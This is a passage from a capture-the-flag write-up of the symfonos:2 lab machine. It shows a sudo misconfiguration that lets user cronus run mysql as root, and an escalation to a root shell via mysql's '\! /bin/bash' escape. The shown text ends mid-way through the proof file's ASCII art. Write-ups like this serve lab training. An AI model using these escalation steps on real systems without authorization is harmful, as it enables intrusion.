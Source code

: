 Using it allows us to get a shell on the machine as the 'cronus' user we found earlier. 

    $ sudo -l

    Matching Defaults entries for cronus on symfonos2:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User cronus may run the following commands on symfonos2:
        (root) NOPASSWD: /usr/bin/mysql


It seems we can run mysql as root. 

    $ sudo mysql -uroot

    MariaDB [(none)]> show databases;

    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | librenms           |
    | mysql              |
    | performance_schema |
    +--------------------+

After playing with it for a while, I didn't find anything in any database or table. After reading the manual page for 'mysql', turns out 'mysql' has an options to run bash commands, we can use \! /bin/bash and get a shell as root.

    $ sudo mysql -uroot
    MariaDB [(none)]> \! /bin/bash

>

    # uname -a

![image](https://user-images.githubusercontent.com/76552238/158076806-c1b0bc6f-f616-4b58-a703-e877c07849f8.png)

We can now go to the directory 'root' and read the proof.txt file.

> ### ***/root/proof.txt:***

            Congrats on rooting symfonos:2!

            ,   ,
            ,-`{-`/
        ,-~ , \ {-~~-,
        ,~  ,   ,`,-~~-,`,
    ,`   ,   { {      } }                                             }/
    ;     ,--/`\ \    / /                                     }/      /,/
    ;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
    ; /   `       } } `, `-`-.___                            / `,  ,/  `,/
    \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
    `        { {                                     __  /  ,`/   ,`,;
            /   \ \                                 _,`, `{  `,{   `,`;`
        {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
        \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
            `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                    / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                    /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
        /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
        /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
        / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \